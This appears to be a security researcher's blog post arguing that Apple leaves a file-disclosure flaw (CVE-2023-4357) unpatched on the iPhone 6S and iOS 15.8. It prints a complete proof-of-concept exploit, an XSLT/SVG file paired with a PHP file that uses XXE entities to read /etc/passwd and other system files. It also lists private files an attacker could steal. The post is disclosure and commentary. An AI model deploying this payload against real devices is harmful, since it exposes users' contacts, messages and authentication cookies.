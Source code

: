 ```yaml
---
layout: post
title: "No new iPhone? No secure iOS: Looking at an unfixed iOS vulnerability"
author: "Joshua Rogers"
categories: security
---
```


What's the deal with iOS security updates, anyway?

Not everybody can afford the newest and greatest Apple product. Luckily, Apple continues to support nearly-decade-old devices like the iPhone 6S, which and iOS 15.8 is still powering those devices, seemingly with official Apple support, with the latest update from [October the 25th, which addressed some security vulnerabilities](https://support.apple.com/en-gb/109032).

In reality, however, Apple seems to only be addressing _some_ security issues in its older supported devices.

---

On June the 28th, Chromium announced that it had patched a vulnerability titled ["CVE-2023-4357: Insufficient validation of untrusted input in XML"](https://chromereleases.googleblog.com/2023/08/stable-channel-update-for-desktop_15.html). In the [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1458911) for that issue, it was shown that on various devices, Google Chrome's Blink rendering engine could reveal the contents of arbitrary files: `/etc/passwd`, for example. Interestingly, this also included Chrome for iOS. Given that Apple forces all browsers in iOS to use the WebKit rendering engine, that meant this vulnerability not only affected Blink, but also WebKit.

---

Taking that exploit from June:

`exploit.svg`:
```html
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">

<svg width="1000%" height="1000%" version="1.1" xmlns="http://www.w3.org/2000/svg">
<foreignObject class="node" font-size="18" width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml">
<xmp><xsl:copy-of select="document('exploit.php')"/></xmp>
</body>
</foreignObject>
</svg>

</xsl:template>
</xsl:stylesheet>
```

`exploit.php`:
```php
<?php header("Access-Control-Allow-Origin: *");?>
<!DOCTYPE p [
<!ENTITY passwd SYSTEM "file:///etc/passwd">
<!ENTITY hosts SYSTEM "file:///etc/hosts">
<!ENTITY group SYSTEM "file://localhost/etc/group">
]>
<p>

<p style="border-style: dotted;">/etc/passwd:
&passwd;
</p>
<p style="border-style: dotted;">/etc/hosts:

&hosts;
</p>
<p style="border-style: dotted;">/etc/group:

&group;
</p>

</p>
```


Aand trying it on the latest version of iOS that the (supported) iPhone 6S, we indeed see that the exploit _still_ works. When opening the page, your `/etc/passwd` is there for the world to see.

That means that any website visited by anybody using an iPhone 6S (or possibly later versions) can silently steal internal system files. What files could somebody steal? Well, there's always:

* AddressBook.sqlitedb: which contains all of the personal contact information of the user and any saved contacts.
* call_history.db: which contains all received, dialled, and missed calls of the user.
* SMS/call_history.db: which contains the SMS history of the user.

Or maybe:
* History.plist: which contains the browsing history of the user.
* Cookies.plist: which contains the browser's cookies -- including authentication cookies, which an attacker can re-use once they are stolen.


---

After contacting Apple to see whether they intended to patch this, the response was quite short: `If in the future you are able to reproduce this issue using a different device that's running iOS 17 or later, please let us know.`

This raises some interesting questions. First off, does it imply that Apple does not patch vulnerabilities in older versions of iOS unless they may used to root/jailbreak the iPhone, or are known to be actively being either mass-exploited or exploited by some nation-state?

A [new exploit targeting the iOS](https://github.com/skysafe/reblog/tree/main/cve-2023-45866) (among other OS') Bluetooth stack has also been [left unpatched by Apple in all versions except iOS 17](https://support.apple.com/en-us/HT214035).

If I was an exploit vendor, I would be paying very close attention to vulnerabilities fixed in iOS 17, and seeing whether they work on previous (supported) iOS versions. Not every target has the newest Apple device, and minimal amount of surveillance may save the vendor from burning a 0day on a target that is using a slightly older device.

---


Note: I haven't tested this against older (supported) MacOS versions, but it's definitely possible that Safari is exploitable here, too.
